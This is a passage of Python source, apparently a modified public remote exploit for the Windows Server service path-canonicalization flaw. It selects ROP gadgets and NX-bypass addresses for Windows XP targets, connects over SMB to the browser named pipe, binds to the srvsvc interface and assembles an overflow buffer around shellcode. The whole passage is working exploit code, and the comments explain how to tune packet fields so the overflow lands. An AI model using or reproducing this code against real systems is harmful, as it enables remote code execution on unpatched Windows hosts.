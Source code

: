 ```python
            ret = "\x07\xf8\x88\x6f"  # 0x6f 88 f8 07
            disable_nx = "\xc2\x17\x89\x6f"  # 0x6f 89 17 c2
            # the nonxjmper also work in this case.
            jumper = nonxjmper % (disable_nx, ret)
        elif (self.os == '7'):
            print('Windows XP SP3 English (AlwaysOn NX)\n')
            rvasets = {'call_HeapCreate': 0x21286, 'add eax, ebp / mov ecx, 0x59ffffa8 / ret': 0x2e796, 'pop ecx / ret': 0x2e796 + 6,
                'mov [eax], ecx / ret': 0xd296, 'jmp eax': 0x19c6f, 'mov [eax+8], edx / mov [eax+0xc], ecx / mov [eax+0x10], ecx / ret': 0x10a56, 'mov [eax+0x10], ecx / ret': 0x10a56 + 6, 'add eax, 8 / ret': 0x29c64}
            # the nonxjmper also work in this case.
            jumper = generate_rop(rvasets) + "AB"
        else:
            print('Not supported OS version\n')
            sys.exit(-1)

        print('[-]Initiating connection')

        # MORE MODIFICATIONS HERE #############################################################################################

        if (self.port == '445'):
            self.__trans = transport.DCERPCTransportFactory('ncacn_np:%s[\\pipe\\browser]' % self.target)
        else:
            # DCERPCTransportFactory doesn't call SMBTransport with necessary parameters. Calling directly here.
            # *SMBSERVER is used to force the library to query the server for its NetBIOS name and use that to 
            #   establish a NetBIOS Session.  The NetBIOS session shows as NBSS in Wireshark.

            self.__trans = transport.SMBTransport(remoteName='*SMBSERVER', remote_host='%s' % self.target, dstport = int(self.port), filename = '\\browser' )
        
        self.__trans.connect()
        print('[-]connected to ncacn_np:%s[\\pipe\\browser]' % self.target)
        self.__dce = self.__trans.DCERPC_class(self.__trans)
        self.__dce.bind(uuid.uuidtup_to_bin(
            ('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0')))
        path = "\x5c\x00" + "ABCDEFGHIJ" * 10 + shellcode + "\x5c\x00\x2e\x00\x2e\x00\x5c\x00\x2e\x00\x2e\x00\x5c\x00" + \
            "\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00" + jumper + "\x00" * 2
        server = "\xde\xa4\x98\xc5\x08\x00\x00\x00\x00\x00\x00\x00\x08\x00\x00\x00\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00\x00\x00"
        prefix = "\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x5c\x00\x00\x00"
        
        # NEW HOTNESS
        # The Path Length and the "Actual Count" SMB parameter have to match.  Path length in bytes
        #   is double the ActualCount field.  MaxCount also seems to match.  These fields in the SMB protocol
        #   store hex values in reverse byte order.  So: 36 01 00 00  => 00 00 01 36 => 310.  No idea why it's "doubled"
        #   from 310 to 620.  620 = 410 shellcode + extra stuff in the path.
        MaxCount = "\x36\x01\x00\x00"  # Decimal 310. => Path length of 620.
        Offset = "\x00\x00\x00\x00"
        ActualCount = "\x36\x01\x00\x00" # Decimal 310. => Path length of 620

        self.__stub = server + MaxCount + Offset + ActualCount + \
            path + "\xE8\x03\x00\x00" + prefix + "\x01\x10\x00\x00\x00\x00\x00\x00"        

        return

```